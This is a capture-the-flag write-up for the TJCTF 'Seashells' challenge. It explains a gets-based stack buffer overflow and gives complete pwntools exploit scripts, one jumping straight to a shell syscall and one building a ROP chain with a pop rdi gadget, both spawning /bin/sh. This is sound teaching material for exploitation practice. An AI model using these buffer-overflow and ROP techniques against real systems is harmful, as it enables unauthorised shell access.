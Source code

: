 ```yaml
---
tags: [_BOF, _ROP, TJCTF]
title: Seashells
created: '2020-05-31T09:33:56.008Z'
modified: '2020-05-31T13:44:06.753Z'
---
```


# Seashells
## Solving
- There is a function `shell` at `0x4006c7`, which when called with $param1 = 0xdeadcafebabebeef$, will spawn a `/bin/sh` shell.
- There is a `gets` into buffer `local_12`, which is $10$ bytes big.
- With a pattern, we found that the offset to the first return is $18$ bytes.

We can now do 2 things
- Jump to syscall, skipping the check for the parameter in the `shell function`
  - Jump straight to `0x4006e3`
- Create a ROP chain to set the first parameter correctly
  - After successfully calling the shell function, we need to put $0xdeadcafebabebeef$ into $rdi$. We can do that by finding a `pop rdi; ret` gadget and putting that in the payload, followed by $0xdeadcafebabebeef$ and the return address for the `shell` function
## Commands
- `file seashells`: `seashells: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3621729c49fe5cebe2153c267fbdf4adb70b0eec, not stripped`
- `checksec`: `NX` and `RELRO`
### Finding offset to return after BoF
`pattern create 256`
`pattern search`

## Exploit
### Jump to beginning shell function
```bash
python -c "import pwn; print(
  'a' * 18 + # Padding
  pwn.p64(0x4006c7)
);" > input.txt
```
### Jump to syscall
```python
#!/usr/bin/env python3

from pwn import *

def main():
	io = process('seashells')

	padding = b'a' * 18
	syscall = p64(0x4006e3)

	payload = padding + syscall

	io.recvuntil('Would you like a shell?')
	io.sendline(payload)
	io.interactive()


if __name__ == '__main__':
	main()
```
### ROPChain
```python
#!/usr/bin/env python3

from pwn import *


def main():
	# context.log_level = 'DEBUG'

	file = './seashells'
	io = process(file)
	binary = ELF(file)
	rop = ROP(file)

	padding = b'a' * 18
	pop_rdi = p64(rop.find_gadget(['pop rdi', 'ret'])[0])
	deadcafebabebeef = p64(0xDEADCAFEBABEBEEF)
	shell_function = p64(binary.symbols['shell'])

	payload = padding + pop_rdi + deadcafebabebeef + shell_function

	io.sendlineafter('Would you like a shell?', payload)
	io.interactive()


if __name__ == '__main__':
	main()

```
